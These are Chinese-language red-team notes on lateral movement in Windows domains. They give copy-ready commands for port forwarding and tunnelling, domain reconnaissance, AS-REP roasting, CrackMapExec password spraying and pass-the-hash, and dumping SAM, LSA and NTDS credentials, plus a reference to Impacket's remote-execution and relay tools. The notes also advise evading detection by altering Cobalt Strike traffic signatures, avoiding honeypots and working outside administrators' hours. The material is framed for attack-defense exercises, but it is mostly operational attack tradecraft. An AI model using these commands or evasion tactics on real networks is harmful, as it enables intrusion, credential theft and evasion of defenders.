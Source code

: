 横向移动
================================

什么是内网横向攻击
--------------------------------
当通过外部打点进入到目标内网时，需要利用现有的资源尝试获取更多的凭证与权限，进而达到控制整个内网、拥有最高权限、发动 APT （高级持续性威胁攻击）等目地。
在攻防演练中，攻击方需要在有限的时间内近可能的获取更多的权限，因此必须具备高效的横向攻击思路。本次对内网横向攻击的技巧和方法进行总结。

注意事项
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 权限丢失
	webshell被发现，网站关站，木马后门被发现，主机改为不出网环境等。当遇到这些问题，需要做好应对措施，多方位的做好权限维持。
- 内网防火墙与杀毒软件
	内网防火墙，内网态势感知，内网流量监控，ids，ips等安全设备都会给横向攻击的开展造成很大的麻烦，应对措施有，对传输流量进行加密，修改cs流量特征，禁止大规模内网探测扫描等等。
- 内网蜜罐主机，蜜罐系统
	近年来攻防演练越来越多的防守方启用蜜罐主机，蜜罐系统，一旦蜜罐捕捉到攻击行为，并及时发现和处置，会导致权限丢失，前功尽弃。
- 运维管理人员
	内网横向攻击尽可能与运维管理人员的工作时间错开，尽量避免长时间登录administrator用户，如激活guest用户登录。降低被发现的几率。


windwos内网横穿
--------------------------------

常见端口
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 445
	- MS17-010，永恒之蓝
	- 远程本地认证：``net use \\192.168.1.2 /user:a\username password``
	- 其中a为域或工作组下的机器命名
+ 137/138/139
	- NetBios端口，137，138为UDP端口，用于内网传输文件
	- NetBios/SMB服务获取通过139端口
+ 135
	- 使用DCOM和RPC服务，用于WMI管理工具的远程操作
+ 53
	- DNS域传送漏洞
	- DNS协议隐秘传输
+ 389
	- LDAP
+ 88
	- Kerberos服务，监听KDC的票据请求，用户黄金票据和白银票据的伪造
+ 5985
	WinRM服务

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ nc
	- 端口扫描
		+ 默认TCP：``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ 将本地9000端口数据转发到192.168.100.2/8000：``mkfifo tmp/fifo|cat /tmp/fifo | nc 192.168.100.2 8000 | nc -l 9000 > /tmp/fifo`` 
		+ 访问：``nc -n 192.168.1.102 9000`` 
+ socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
+ netsh
	- 前提：IP Helper服务必须启动；管理员权限；
	- 查看已存在端口转发：``netsh interface portproxy show all``
	- 增加监听8888端口转发到3389端口：``netsh interface portproxy add v4tov4 listenport=8888 listenaddress=0.0.0.0 connectaddress=0.0.0.0 connectport=3389``
	- 删除转发端口：``netsh interface portproxy del v4tov4 listenport=8888 listenaddress=0.0.0.0``
	- 删除所有转发端口：``netsh interface portproxy reset``
+ portfwd
	- MSF自带工具
	- 将192.168.100.4的8888端口，映射到当前主机的8899端口
	- ``portfwd add -l 8899 -r 192.168.100.4 -p 8888``
+ proxychains
	- 修改配置/etc/proxychains.conf
		::
		
			[ProxyList]
			socks5 172.20.0.59 7222
	- 直接在程序前增加proxychains
	- ``sudo proxychains apt-get update``
	- 注意：socks代理不支持UDP协议，不支持icmp/ping协议，nmap使用受限。
+ frp
	- 官网下载：https://github.com/fatedier/frp/releases
	- 示例
		::
		
			跳板机（假设IP为172.20.0.59/192.168.100.3双网卡）上frps.ini配置：
			[common]
			bind_port = 7111
			
			执行命令：frps.exe -c frps.ini
			
			目标机器（假设IP为192.168.100.4/128.0.0.2双网卡）上frpc.ini配置：
			[common]
			server_addr = 192.168.100.3
			server_port = 7111

			[plugin_1]
			type = tcp
			remote_port = 7222
			plugin = socks5
			
			执行命令：frpc.exe -c frpc.ini
			
			这样再kali里面设置proxychains代理/etc/proxychains.conf：
			[ProxyList]
			socks5 172.20.0.59 7222
			在172.20.0.1/24网段机器使用nmap直接对内网128网段进行扫描：
			proxychains nmap -sT -Pn -p- 128.0.0.1/24
	- 相关问题
		+ frpc客户端连接会提示 login to server failed: EOF
			::
			
				修改frpc.ini文件，在common节点，添加tls_enable = true
+ NPS【综合】
	- 一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。
	- 访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析、内网socks5代理等等，并带有功能强大的web管理端。
	- 项目地址：``https://github.com/ehang-io/nps``
	- 帮助文档：``https://ehang.io/nps/documents``
+ Goproxy 【综合】
	- Goproxy 是 golang 实现的高性能 http ,https ,websocket ,tcp ,socks5 代理服务器。
	- 项目地址：``https://github.com/snail007/goproxy``
	- 帮助文档：``https://snail007.host900.com/goproxy/manual/zh/#/``
+ Stowaway【多级】
	- Stowaway是一个利用go语言编写、专为渗透测试工作者制作的多级代理工具。
	- 项目地址：``https://github.com/ph4ntonn/Stowaway``
+ Neo-reGeorg【Webshell】
	- Neo-reGeorg 是一个旨在积极重构 reGeorg 的项目。
	- 项目地址：``https://github.com/L-codes/Neo-reGeorg``

域渗透
--------------------------------

域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
域指将网络中多台计算机逻辑上组织到一起，进行集中管理的逻辑环境。域是组织与存储资源的核心管理单元，在域中，至少有一台域控制器，域控制器中保存着整个域的用户帐号和安全数据库。

+ Active Directory
	- 活动目录（AD）是面向Windows Server的目录服务。Active Directory存储了有关网络对象的信息，并且让管理员和用户能够查找和使用这些信息。

+ NTLM认证
	- NTLM是NT LAN Manager的缩写，NTLM是基于挑战/应答的身份验证协议，是 Windows NT 早期版本中的标准安全协议，基本流程为：

	::
	
		客户端在本地加密当前用户的密码成为密码散列
		客户端向服务器明文发送账号
		服务器端产生一个16位的随机数字发送给客户端，作为一个challenge
		客户端用加密后的密码散列来加密challenge，然后返回给服务器，作为response
		服务器端将用户名、challenge、response发送给域控制器
		域控制器用这个用户名在SAM密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密chellenge
		域控制器比较两次加密的challenge，如果一样那么认证成功，反之认证失败

+ kerboser认证
	- 见认证机制章中Kerberos一节。

+ Pass The Hash
	- Pass The Hash (PtH) 是攻击者捕获帐号登录凭证后，复用凭证Hash进行攻击的方式。

+ Pass The Key

判断是否有域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般域服务器都会同时作为时间服务器，所以使用下面命令判断主域
::

	1.存在域，但当前用户不是域用户，提示说明权限不够
		C:\Users>bypass>net time /domain
		发生系统错误 5 
		拒绝访问。

	2.存在域，并且当前用户是域用户
		C:\Users\Administrator>net time /domain
		\\dc.test.com 的当前时间是 2020/10/23 21:18:37
		
		命令成功完成。

	3.当前网络环境为工作组，不存在域
		C:\Users\Administrator>net time /domain
		找不到域 WORKGROUP 的域控制器。

找到域控主机IP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般来说，域控服务器IP地址为DNS服务器地址，找到DNS服务器地址就可以定位域控。
::

	nslookup 域名
	ping 域名

查找域管理员
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

	net user /domain //获取域用户列表
	net group /domain  //查询域内所有用户组列表
	net group “Domain Admins” /domain //查询域管理员用户
	net group "Domain Controllers" /domain  //查看域控制器
	net localgroup administrators /domain  //查询域内置本地管理员组用户

获取域用户hash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ python3 GetNPUsers.py 'VULNNET-RST/' -usersfile user.txt -no-pass -dc-ip 10.10.33.36

相关工具
--------------------------------

CrackMapExec 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 地址：``https://github.com/byt3bl33d3r/CrackMapExec``
+ 安装
	::
	
		最方便：
		apt-get install crackmapexec
		避免有坑：
		apt-get install -y libssl-dev libffi-dev python-dev build-essential
		pip install --user pipenv
		git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
		cd CrackMapExec && pipenv install
		pipenv shell
		python setup.py install
+ 说明
	- 帮助：``crackmapexec --help``
	- 根据协议获取帮助信息：``crackmapexec smb --help``
	- 基本探测
		::
		
			crackmapexec protocol test.com
			crackmapexec protocol 192.168.3.70/24
			crackmapexec protocol 192.168.3.70-77  192.168.4.1-20
			crackmapexec protocol ~/ip.txt
	- 携带认证信息
		::
		
			crackmapexec protocol 192.168.3.70 -u administrator -p 'admin!@#45'
			crackmapexec protocol 192.168.3.70 -u='-administrator' -p='-admin!@#45'   //第一个字母为-的特殊情况语句
	- 协议探测：``crackmapexec  smb 192.168.3.73-76``
	- 密码喷射
		::
		
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45'
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u administrator  sqladmin -p 'admin!@#45' 'Admin12345'
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -p ~/pass.txt
			crackmapexec smb 192.168.3.73-144 -u ~/name.txt -H ~/ntlmhash.txt
			crackmapexec smb 192.168.3.73-144 -u user -H 'NTHASH'
			crackmapexec smb 192.168.3.73-144 -u user -H 'LMHASH:NTHASH'
	- 执行命令：``crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' -x whoami``
	- 凭证获取
		::
		
			crackmapexec smb 192.168.3.144 -u administrator -p 'admin!@#45' --sam
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --lsa
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds vss
			crackmapexec smb 192.168.3.73-144 -u administrator -p 'admin!@#45' --ntds-history
	- Sessions枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --sessions``
	- 共享枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --shares``
	- 磁盘枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --disk``
	- 登录用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --loggedon-users``
	- RID爆破枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --rid-brute``
	- 域用户枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --users``
	- 组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --groups``
	- 本地组枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --local-groups``
	- 域密码策略枚举：``crackmapexec smb 192.168.3.76-144 -u administrator -p 'admin!@#45' --pass-pol``

Impackt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 安装
	- git clone https://github.com/CoreSecurity/impacket.git
	- cd impacket/
	- python setup.py install
+ 通用选项
	- 密码认证连接：``python3 xxx.py [域]/[用户]:[密码]@[目标ip]``
	- hash认证连接：``python3 xxx.py [域]/[用户]@ip -hashes :161cff084477fe596a5db81874498a24``
	- Kerberos认证：``export KRB5CCNAME=ad01.ccache ``,``python3 xxx.py -k -no-pass``
	- 指定目标IP：``-target-ip 192.168.40.156``
	- 指定域控IP：``-dc-ip 192.168.40.156``
+ psexec.py
	- 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom）。
+ smbexec.py：
	- 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。
+ atexec.py
	- 通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
+ wmiexec.py
	- 通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。
+ dcomexec.py
	- 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。
+ GetTGT.py
	- 指定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache。
+ GetST.py
	- 指定ccache中的密码，哈希，aesKey或TGT，此脚本将请求服务票证并将其保存为ccache。如果该帐户具有约束委派（具有协议转换）权限，您将能够使用-impersonate参数代表另一个用户请求该票证。
+ GetPac.py
	- 获得指定目标用户的PAC（权限属性证书）结构，该结构仅具有正常的经过身份验证的用户凭据。它通过混合使用[MS-SFU]的S4USelf +用户到用户Kerberos身份验证组合来实现的。
+ GetUserSPNs.py
	- 查找和获取与普通用户帐户关联的服务主体名称。
+ GetNPUsers.py
	- 尝试为那些设置了属性“不需要Kerberos预身份验证”的用户获取TGT（UF_DONT_REQUIRE_PREAUTH)。
+ ticketer.py
	- 从头开始或基于模板（根据KDC的合法请求）创建金/银票据，允许您在PAC_LOGON_INFO结构中自定义设置的一些参数，特别是组、外接程序、持续时间等。
+ raiseChild.py
	- 通过（ab）使用Golden Tickets和ExtraSids的基础来实现子域到林权限的升级。
+ secretsdump.py
	- 执行各种技术从远程机器转储Secrets，而不在那里执行任何代理。对于SAM和LSA Secrets（包括缓存的凭据），然后将hives保存在目标系统（％SYSTEMROOT％\ Temp目录）中，并从中读取其余数据。对于DIT文件，我们使用dl_drsgetncchanges()方法转储NTLM哈希值、纯文本凭据（如果可用）和Kerberos密钥。
+ mimikatz.py
	- 远程mimikatz RPC服务器的迷你shell。
+ ntlmrelayx.py
	- 此脚本执行NTLM中继攻击，设置SMB和HTTP服务器并将凭据中继到许多不同的协议。
+ karmaSMB.py
	- 无论指定的SMB共享和路径名如何，都会响应特定文件内容的SMB服务器。
+ smbserver.py
	- SMB服务器的Python实现，允许快速设置共享和用户帐户。
+ smbclient.py
	- 通用的SMB客户端。
+ wmiquery.py
	- 它允许发出WQL查询并在目标系统上获取WMI对象的描述（例如，从win32_account中选择名称）
+ wmipersist.py
	- 此脚本创建/删除wmi事件使用者/筛选器，并在两者之间建立链接，以基于指定的wql筛选器或计时器执行Visual Basic Basic。
+ lookupsid.py
	- 安全标识符（SID）是可变长度的唯一值，用于标识用户帐户，通过[MS-LSAT] MSRPC接口的Windows SID暴力破解查找远程用户和组。
+ reg.py
	- 通过[ms-rrp]msrpc接口远程注册表操作工具。
+ rpcdump.py
	- 转储目标上注册的RPC端点和字符串绑定列表,它还将尝试将它们与已知端点列表进行匹配。
+ opdump.py
	- 这将绑定到给定的hostname:port和msrpc接口。然后，它尝试依次调用前256个操作号中的每一个，并报告每个调用的结果。
+ samrdump.py
	- 从MSRPC套件与安全帐户管理器远程接口通信的应用程序中。它列出了通过此服务导出的系统用户帐户、可用资源共享和其他敏感信息。
+ services.py
	- 此脚本可用于通过[MS-SCMR] MSRPC接口操作Windows服务。它支持启动，停止，删除，状态，配置，列表，创建和更改。
+ ifmap.py
	- 此脚本将绑定到目标的管理接口，以获取接口ID列表。它将在另一个界面UUID列表上使用这个列表，尝试绑定到每个接口并报告接口是否已列出或正在侦听。
+ getArch.py
	- 此脚本将与目标（或目标列表）主机连接，并使用文档化的msrpc功能收集由（ab）安装的操作系统体系结构类型。
+ netview.py
	- 获取在远程主机上打开的会话列表，并跟踪这些会话在找到的主机上循环，并跟踪从远程服务器登录/退出的用户。
+ goldenPac.py
	- 利用MS14-068。保存Golden Ticket并在目标位置启动PSExec会话。
+ sambaPipe.py
	- 该脚本将利用CVE-2017-7494，通过-so参数上传和执行用户指定的共享库。
+ smbrelayx.py
	- 利用SMB中继攻击漏洞CVE-2015-0005。如果目标系统正在执行签名并且提供了计算机帐户，则模块将尝试通过NETLOGON收集SMB会话密钥。
+ mssqlinstance.py
	- 从目标主机中检索MSSQL实例名称。
+ mssqlclient.py
	- MSSQL客户端,支持SQL和Windows身份验证（哈希）.它还支持TLS。
+ esentutl.py
	- Extensibe存储引擎格式实现。它允许转储ESE数据库的目录，页面和表（例如NTDS.dit）
+ ntfs-read.py
	- NTFS格式实现。此脚本提供了一个用于浏览和提取NTFS卷的功能小的反弹shell，包括隐藏/锁定的内容
+ registry-read.py
	- Windwows注册表文件格式实现。它允许解析脱机注册表配置单元.
+ GetADUsers.py
	- 此脚本将收集有关域用户及其相应电子邮件地址的数据。它还将包括有关上次登录和上次密码设置属性的一些额外信息。
+ mqtt_check.py
	- 简单的MQTT示例，旨在使用不同的登录选项。可以很容易地转换成帐户/密码暴力工具。
+ rdp_check.py
	- [MS-RDPBCGR ]和[MS-CREDSSP]部分实现只是为了达到CredSSP身份验证。此示例测试帐户在目标主机上是否有效。
+ sniff.py
	- 简单的数据包嗅探器，使用pcapy库来监听在指定接口上传输的包。
+ sniffer.py
	- 简单的数据包嗅探器，它使用原始套接字来侦听与指定协议相对应的传输中的数据包。
+ ping.py
	- 简单的ICMP ping。
+ ping6.py
	- 简单的IPv6 ICMP ping，它使用ICMP echo和echo-reply数据包来检查主机的状态。
